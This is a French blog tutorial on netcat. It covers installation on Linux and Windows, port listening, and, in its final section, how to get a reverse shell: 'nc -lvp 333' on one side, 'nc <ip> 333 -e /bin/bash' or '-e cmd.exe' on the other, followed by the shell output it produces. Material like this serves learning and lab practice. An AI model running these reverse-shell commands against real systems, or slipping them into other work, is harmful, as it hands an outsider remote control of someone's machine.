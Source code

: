 ```yaml
---
title: Netcat, un couteau suisse réseau
author: Davistar
layout: post
permalink: "/hacking/netcat_outil_reseau_linux.html"
category: hacking
image: /techlovers/assets/2018-10-24/image1netcat.jpg
---
```

&nbsp;

## Qu'est-ce que Netcat ?

Netcat (souvent abrégé en nc) est un utilitaire de réseau informatique permettant de lire et d'écrire sur des connexions réseau en utilisant TCP ou UDP. 
Netcat est conçu pour être un back-end fiable pouvant être utilisé directement ou facilement piloté par d'autres programmes et scripts. Parallèlement, il s'agit d'un outil de débogage et d'investigation réseau riche en fonctionnalités, car il peut générer pratiquement tout type de connexion dont l'utilisateur pourrait avoir besoin et dispose de nombreuses fonctionnalités intégrées.

Sa liste de fonctionnalités inclut l'analyse de port, le transfert de fichiers et l'écoute de port. Il peut également être utilisé comme porte dérobée.


## Installation de Netcat :

Netcat est tres simple d'installation:

### Installation Pour Linux :

{% highlight bash %}
$ sudo apt update && apt upgrade -y && apt install netcat -y
{% endhighlight %}

![installation](/techlovers/assets/2018-10-24/image2netcat.png)

### Installation Pour Windows :

Lien de téléchargement => [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/)

- Extraire l'archive
- Finir l'installation
- Optionnel : pour ceux qui desire juste taper nc dans le terminal, ajouter nc.exe dans l'environement de PATH Windows


## Utilisation de netcat :

### Pour afficher l'aide de netcat

{% highlight bash %}
$ sudo nc -h
{% endhighlight %}

### Pour passer netcat sous écoute :

> * -l = passe netcat en mode écoute
> * -v = pour rendre nectat plus verbeux
> * -p = pour specifier le port à écouter

{% highlight bash %}
$ sudo nc -lvp 444
listening on [any] 444 ...
{% endhighlight %}

![listen](/techlovers/assets/2018-10-24/image3netcat.png)


### Comment se connecter a une ip via netcat :

{% highlight bash %}
$ sudo nc <IP> <PORT>
{% endhighlight %}


### Comment prendre le contrôle d'un processus avec Netcat :

L'outil netcat permet d'effectuer des tâches pour le moins dangereuses même s'il ne represente aucun danger en lui même.

Nous allons voir comment prendre le contrôle du shell d'un système :

Tout d'abord, nous devons ecouter un port. Moi, je vais choisir le port 333.

Nous allons maintenant taper la commande pour ecouter notre port 333.

{% highlight bash %}
$ nc -lvp 333
listening on [any] 333 ...
{% endhighlight %}

On est maintenant sur écoute prêt à recevoir une connexion

Nous allons maintenant taper cette commande-ci pour se connecter à notre port avec un processus.

{% highlight bash %}
$ sudo nc 192.168.1.70 333 -e "/bin/bash"
{% endhighlight %}

Pour prendre le shell de windows, faites ceci:

{% highlight bash %}
C:\Users\Davistar\Desktop > nc.exe 192.168.1.70 333 -e cmd.exe
{% endhighlight %}

Une fois cette commande entrée, vous devez recevoir cela sur le terminal sous écoute.

{% highlight bash %}
$ nc -lvp 333
listening on [any] 333 ...
192.168.1.70: inverse host lookup failed: Unknown host
connect to [192.168.1.70] from (UNKNOWN) [192.168.1.70] 51414
{% endhighlight %}

Cela signifie que le client est bien connecté à votre machine, maintenant on peut exécuter toutes les commandes du shell.

Exemple :

{% highlight bash %}
ps  
  PID TTY          TIME CMD
 7604 pts/1    00:00:00 sudo
 7605 pts/1    00:00:00 bash
 7606 pts/1    00:00:00 ps
{% endhighlight %}

{% highlight bash %}
$ ls

aquatone
Desktop
Documents
Images
Musique
Public
Téléchargements
Templates
video.ogv
Vidéos
wordlist
{% endhighlight %}

{% highlight bash %}
help
GNU bash, version 4.4.23(1)-release (x86_64-pc-linux-gnu)
Ces commandes de shell sont définies de manière interne. Saisissez « help » pour voir cette liste.
Tapez « help nom » pour en savoir plus sur la fonction qui s'appelle « nom ».
Utilisez « info bash » pour en savoir plus sur le shell en général.
Utilisez « man -k » ou « info » pour en savoir plus sur les commandes qui
ne font pas partie de cette liste.

Une astérisque (*) à côté d'un nom signifie que la commande est désactivée.

 job_spec [&]                            history [-c] [-d décalage] [n] ou hi>
 (( expression ))                        if COMMANDES; then COMMANDES; [ elif>
 . nom_fichier [arguments]               jobs [-lnprs] [jobspec ...] ou jobs >
 :                                       kill [-s sigspec | -n signum | -sigs>
 [ arg... ]                              let arg [arg ...]
 [[ expression ]]                        local [option] nom[=valeur] ...
 alias [-p] [nom[=valeur] ... ]          logout [n]
 bg [job_spec ...]                       mapfile [-d délim] [-n nombre] [-O o>
 bind [-lpvsPSVX] [-m keymap] [-f nomf>  popd [-n] [+N | -N]
 break [n]                               printf [-v var] format [arguments]
 builtin [shell-builtin [arg ...]]       pushd [-n] [+N | -N | rép]
 caller [expr]                           pwd [-LP]
 case MOT in [MOTIF [| MOTIF]...) COMM>  read [-ers] [-a tableau] [-d delim] >
 cd [-L|[-P [-e]] [-@]] [rép]            readarray [-n nombre] [-O origine] [>
 command [-pVv] commande [arg ...]       readonly [-aAf] [nom[=valeur] ...] o>
 compgen [-abcdefgjksuv] [-o option] [>  return [n]
 complete [-abcdefgjksuv] [-pr] [-DE] >  select NOM [in MOTS ... ;] do COMMAN>
 compopt [-o|+o option] [-DE] [nom ...>  set [-abefhkmnptuvxBCHP] [-o nom-opt>
 continue [n]                            shift [n]
 coproc [NOM] commande [redirections]    shopt [-pqsu] [-o] [nom_opt ...]
 declare [-aAfFgilnrtux] [-p] [nom[=va>  source nom_fichier [arguments]
 dirs [-clpv] [+N] [-N]                  suspend [-f]
 disown [-h] [-ar] [jobspec ... | pid >  test [expr]
 echo [-neE] [arg ...]                   time [-p] pipeline
 enable [-a] [-dnps] [-f nomfichier] [>  times
 eval [arg ...]                          trap [-lp] [[arg] signal_spec ...]
 exec [-cl] [-a nom] [commande [argume>  true
 exit [n]                                type [-afptP] nom [nom ...]
 export [-fn] [nom[=valeur] ...] ou ex>  typeset [-aAfFgilnrtux] [-p] nom[=va>
 false                                   ulimit [-SHabcdefiklmnpqrstuvxPT] [l>
 fc [-e ename] [-lnr] [premier] [derni>  umask [-p] [-S] [mode]
 fg [job_spec]                           unalias [-a] nom [nom ...]
 for NOM [in MOTS ... ] ; do COMMANDES>  unset [-f] [-v] [-n] [nom ...]
 for (( exp1; exp2; exp3 )); do COMMAN>  until COMMANDES; do COMMANDES; done
 function nom { COMMANDES ; } ou nom (>  variables - Noms et significations d>
 getopts chaineopts nom [arg]            wait [-n] [id ...]
 hash [-lr] [-p nomchemin] [-dt] [nom >  while COMMANDES; do COMMANDES; done
 help [-dms] [motif ...]                 { COMMANDES ; }

{% endhighlight %}

Voilà nous avons l'intégralité du shell.

![screen2](/techlovers/assets/2018-10-24/image4netcat.png)